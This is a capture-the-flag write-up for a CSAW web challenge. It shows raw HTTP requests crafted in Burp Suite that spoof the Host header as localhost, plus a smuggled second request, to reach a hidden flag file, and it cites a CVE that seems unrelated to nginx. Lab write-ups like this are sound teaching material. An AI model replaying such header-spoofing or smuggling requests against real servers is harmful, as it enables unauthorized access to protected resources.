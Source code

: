 It is acutally a web vulnerability problem. 
A link was there
[http://web.csaw.io:3009/](http://web.csaw.io:3009/)
After going to the link:
![[Pasted image 20230916214002.png]]
After clicking hint, this page was shown
![[Pasted image 20230916214118.png]]
After using the inspect and going to network:
![[Pasted image 20230916214416.png]]
Here, we can see the server is 
Server: nginx/1.17.6
So, putting it into the form we were directed to this page:
![[Pasted image 20230916214604.png]]
After searching online I found this vulnerability CVE:
https://nvd.nist.gov/vuln/detail/cve-2019-20218#match-8411509
So, after researching a bit, I found out that the vulnerability is  using the redirection to move to private/hidden pages of the site.

When we click on the flag text(http://localhost:3009/flag.txt) in the webpage we are shown:
![[Pasted image 20230916215121.png]]
So, its hidden.

According to the hint, we can access the site by being the localhost.
So, after searching online on how to use this vulnerability, I found out a video where it is similar to our problem.
https://www.youtube.com/watch?v=jimGQpftYWs
After that, I searched online again it the way he did was not working
After searching, I found out a site where he demostrate how to redirection works.
So, I opened burpsuite and written the following thing in the repeater:
```
GET /flag.txt HTTP/1.1
Host: localhost:3009
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://web.csaw.io:3009/flag.txt
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: connect.sid=s%3A7rBkPQHP4_5pRN_fo7Wm4myKEdLnZcbZ.TtmQ0CzsUUSN%2BDd%2Bu2hSnfmn4jsFL1bHjzPXzHSmDdw
Connection: keep-alive
Content-Length: 39

GET /flag.txt HTTP/1.1
Host: localhost
```
Most of it is copied from interceptor. I just put `/flag.txt` insted of `/ ` in `GET /flag.txt HTTP/1.1`
then, I changed `Host: web.csaw.io:3009` to `Host: localhost:3009`
and `Referer: http://web.csaw.io:3009/` to `Referer: http://web.csaw.io:3009/flag.txt`

and finally changed `Connection: close` to `Connection: keep-alive`
and added the following part 
```
GET /flag.txt HTTP/1.1
Host: localhost
```

The result from the repeater is:
![[Pasted image 20230916220128.png]]
Therefore, the flag is:
`csawctf{d0nt_smuggl3_Fla6s_!}`
Edit:
Only this part is required:
```
GET /flag.txt HTTP/1.1
Host: localhost:3009
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://web.csaw.io:3009/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: connect.sid=s%3A7rBkPQHP4_5pRN_fo7Wm4myKEdLnZcbZ.TtmQ0CzsUUSN%2BDd%2Bu2hSnfmn4jsFL1bHjzPXzHSmDdw
Connection: keep-alive
Content-Length: 0
```
Only the change in `/flag.txt` insted of `/ ` in `GET /flag.txt HTTP/1.1` 
and `Host: web.csaw.io:3009` to `Host: localhost:3009` is required.




